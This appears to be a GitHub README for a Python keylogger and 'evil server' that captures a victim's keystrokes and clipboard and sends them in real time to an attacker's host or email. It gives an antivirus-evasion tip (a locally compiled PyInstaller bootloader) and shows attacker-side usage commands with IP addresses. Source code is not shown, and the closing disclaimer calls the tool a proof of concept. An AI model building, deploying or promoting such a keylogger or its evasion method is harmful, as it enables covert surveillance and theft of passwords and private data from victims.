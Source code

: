<div align="center">

![272844130-8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a-removebg-preview](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/312b2d20-ecb1-42b9-9d54-2382833a7735)

<img src="https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8f263795-f5f4-418f-a918-d4dea0c992cd" height=350 align=left>

[![License: GPL-3.0](https://img.shields.io/badge/License-GPL--3.0-blue.svg)](https://opensource.org/licenses/GPL-3.0)
    
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit and it can be improved in many ways to suit your needs.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
